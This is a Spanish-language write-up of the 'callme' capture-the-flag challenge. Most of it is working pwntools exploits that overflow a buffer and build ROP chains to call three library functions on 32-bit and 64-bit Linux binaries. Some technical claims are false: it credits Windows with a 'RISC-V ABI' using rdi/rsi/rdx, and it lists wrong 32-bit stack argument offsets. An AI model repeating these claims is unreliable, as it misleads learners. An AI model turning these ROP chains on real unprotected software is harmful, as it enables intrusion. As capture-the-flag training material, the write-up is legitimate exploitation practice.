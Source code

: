 # callme

![2025-05-30-195505_895x310_scrot](https://github.com/user-attachments/assets/8bfcb5ed-d8de-4e9c-99d9-3f21080d356c)

## x86

```
 checksec --file=callme32
[*] '/home/kalcast/Descargas/callme32'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    RUNPATH:    b'.'
    Stripped:   No
```

Ok de nuevo sin canario ni PIE, en la descripcion nos dicen que para ganra debemos llamar a tres funciones: `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`, ` callme_two(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)` y `callme_three(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`

Los argumentos de una funcion en x86 se pasan por el stack. Cuando se hace un "call fun" el stack frame luce asi:
```
 function_return      <-- esp
 reserved_ebp         <-- ebp
 arg1 
 arg2
 arg3
```

La funcion busca el primer argumento en ebp+0x8, el segundo en ebp+0x10 y el tercero en ebp+0x18 y luego retorna a "function_return".

Luego limpia el stack frame moviendo esp con `add esp,12` por ejemplo.

Necesitamos simular este comportamiento para tres llamadas. Podemos obtenerlas con rabin2:
```
 rabin2 -s callme32  | grep callme
35  ---------- 0x00000000 LOCAL  FILE   0        callme.c
3   0x000004e0 0x080484e0 GLOBAL FUNC   16       imp.callme_three
4   0x000004f0 0x080484f0 GLOBAL FUNC   16       imp.callme_one
11  0x00000550 0x08048550 GLOBAL FUNC   16       imp.callme_two
```

Es curioso notar que estas funciones no pertenecen al binario sino que son importadas desde `libcallme32.so`

```
rabin2 -R callme32 | grep callme
WARN: Relocs has not been applied. Please use `-e bin.relocs.apply=true` or `-e bin.cache=true` next time
0x0804a014 0x00001014 SET_32 7     callme_three
0x0804a018 0x00001018 SET_32 7     callme_one
0x0804a030 0x00001030 SET_32 7     callme_two
```

Tenemos las direcciones de las funciones y conocemos los argumentos pero debemos limpiar la pila entre llamadas.

Podemos usar un "gadget", un grupo de instrucciones en ensamblador que hacen algo y terminan en `ret`.

Necesitamos una que haga tres `pop` para eliminar los argumentos y limpiar la pila. Podemos dentro de r2 usar "/R" para obtener un gadget:
``` /R pop
...
  0x080487f8                 5b  pop ebx
  0x080487f9                 5e  pop esi
  0x080487fa                 5f  pop edi
  0x080487fb                 5d  pop ebp
  0x080487fc                 c3  ret
...
```

Podemos usar esta direccion: 0x080487f9.

Exploit con Python/pwntools:
``` python
from pwn import *
elf = context.binary = ELF("./callme32")
io = process("./callme32")

pop_gadget=0x080487f9
def call(addr):
    payload=p32(addr)
    payload+=p32(pop_gadget) 
    #payload+=p32(0x0)
    payload+=p32(0xdeadbeef) # ebp + 8
    payload+=p32(0xcafebabe)
    payload+=p32(0xd00df00d)
    return payload

io.recv()
payload=b"A"*44
payload+=call(elf.sym['callme_one'])
payload+=call(elf.sym['callme_two'])
payload+=call(elf.sym['callme_three'])

io.sendline(payload)
io.interactive()
```

## x86_64

En 64 bits es un poco diferente el paso de argumentos a la funcion. Primero los argumentos se guardan en ciertos registros en dependencia de la ABI que se use, la ABI de RISC-V que usa Windows dice que los primeros tres argumentos se pasan a los registros `rdi`, `rsi` y `rdx` respectivamente.

Encontramos un gadget que nos permita hacer esto:
```
[0x00400760]> /R pop rdi
  0x0040093c                 5f  pop rdi
  0x0040093d                 5e  pop rsi
  0x0040093e                 5a  pop rdx
  0x0040093f                 c3  ret
```

Primero retornamos al gadget, preparamos los registro y después es que llamamos a la función.

Exploit completo con python/pwntools:
``` python
from pwn import *
elf = context.binary = ELF("./callme")
io = process("./callme")

pop_gadget=0x0040093c
def call(addr):
    payload=p64(pop_gadget)
    payload+=p64(0xdeadbeefdeadbeef)
    payload+=p64(0xcafebabecafebabe)
    payload+=p64(0xd00df00dd00df00d)
    payload+=p64(addr)
    return payload

io.recv()
payload=b"A"*40
payload+=call(elf.sym['callme_one'])
payload+=call(elf.sym['callme_two'])
payload+=call(elf.sym['callme_three'])

print(payload)
io.sendline(payload)
io.interactive()
```







